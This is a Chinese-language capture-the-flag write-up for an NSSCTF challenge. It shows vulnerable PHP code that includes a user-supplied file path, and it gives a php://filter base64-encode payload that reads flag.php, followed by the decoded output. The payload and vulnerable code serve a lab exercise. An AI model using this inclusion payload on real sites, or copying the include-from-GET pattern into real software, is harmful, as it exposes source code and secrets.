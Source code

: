 >做题人：余俊康
>题目url：https://www.nssctf.cn/problem/2821
>知识点：PHP伪协议

打开题目有一段php代码
```php
 <?php
error_reporting(0);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 3) === "php" ) {
        echo "Nice!!!";
        include($_GET["file"]);
    } 

    else {
        echo "Hacker!!";
    }
}else {
    highlight_file(__FILE__);
}
//flag.php 
```

注意下面这句
```php
substr($_GET["file"], 0, 3) === "php"
```
意思是检查参数值的前三个字符是否为 php
根据题目提示用php伪协议和Get传参前三个为php
所以构造如下的payload
```
file=php://filter/read=convert.base64-encode/resource=flag.php
```
得到了下面这串
```
Nice!!!
PD9waHANCmVycm9yX3JlcG9ydGluZygwKTsNCmhlYWRlcigiQ29udGVudC1UeXBlOnRleHQvaHRtbDtjaGFyc2V0PXV0Zi04Iik7DQoNCg0KZWNobyAgICJOU1NDVEZ7ZmxhZ19pc19ub3RfaGVyZX0iIC4iPGJyLz4iOw0KZWNobyAicmVhbF9mbGFnX2lzX2luXyAnL2ZsYWcnICIuIjxici8+IjsNCmVjaG8gIuaNouS4quaAnei3r++8jOivleivlVBIUOS8quWNj+iuruWRoiI7DQo=
```

可是base64解码得到
```php
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");


echo   "NSSCTF{flag_is_not_here}" ."<br/>";
echo "real_flag_is_in_ '/flag' "."<br/>";
echo "换个思路，试试PHP伪协议呢";

```
说明在flag这个文件里而不是flag。php里
![](https://doc.amqyy.cn/uploads/d52da63f-85e3-4006-a853-77cbaa12c5b5.png)
